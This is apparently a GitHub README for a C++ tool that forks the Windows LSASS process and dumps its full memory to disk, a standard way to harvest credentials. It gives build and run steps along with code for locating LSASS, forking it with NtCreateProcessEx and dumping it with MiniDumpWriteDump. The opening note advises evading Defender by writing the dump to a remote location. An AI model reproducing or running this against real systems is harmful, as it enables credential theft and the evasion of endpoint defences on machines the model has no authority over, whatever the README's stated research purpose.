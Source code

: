 
# LSASS Fork and Dump

Note: While the executable is not flagged by Defender, the .dmp file that is written to disk will be flagged. Dump it to a remote location.

This project demonstrates how to create a fork of the LSASS process and dump its memory using the Windows API. This can be useful for forensic analysis and security research.

## Features

- Locates the LSASS process by name.
- Uses `NtCreateProcessEx` to create a fork of the LSASS process.
- Dumps the memory of the forked process to a file using `MiniDumpWriteDump`.

## Prerequisites

- Windows operating system
- Visual Studio or any other C++ compiler
- Administrator privileges

## Libraries and Dependencies

- `windows.h`
- `DbgHelp.h`
- `TlHelp32.h`
- `winternl.h`
- `tchar.h`
- Link with `Dbghelp.lib` and `ntdll.lib`

## How to Build

1. Clone the repository.
2. Open the project in Visual Studio or your preferred C++ development environment.
3. Ensure that you have linked `Dbghelp.lib` and `ntdll.lib` in your project settings.
4. Build the project.

## How to Run

1. Ensure you are running with administrator privileges.
2. Execute the compiled binary.
3. The program will create a memory dump of the forked LSASS process and save it as `lsass_forked.dmp`.

## Code Explanation

### Finding LSASS PID

The program takes a snapshot of all running processes and iterates through them to find the process with the name `lsass.exe`.

```cpp
HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
PROCESSENTRY32 processEntry = {};
processEntry.dwSize = sizeof(PROCESSENTRY32);

if (Process32First(snapshot, &processEntry)) {
    do {
        if (_wcsicmp(processEntry.szExeFile, L"lsass.exe") == 0) {
            lsassPID = processEntry.th32ProcessID;
            break;
        }
    } while (Process32Next(snapshot, &processEntry));
}
```

### Creating Forked Process

The program uses `NtCreateProcessEx` to create a new process that is a fork of the LSASS process.

```cpp
pNtCreateProcessEx NtCreateProcessEx = (pNtCreateProcessEx)GetProcAddress(hNtdll, "NtCreateProcessEx");
NTSTATUS status = NtCreateProcessEx(&forkedProcess, PROCESS_ALL_ACCESS, NULL, lsassHandle, 0, NULL, NULL, NULL);
```

### Dumping the Forked Process

The program uses `MiniDumpWriteDump` to create a dump of the forked process.

```cpp
DWORD forkedProcessPID = GetProcessId(forkedProcess);
BOOL isDumped = MiniDumpWriteDump(forkedProcess, forkedProcessPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
```

## License

This project is licensed under the MIT License.
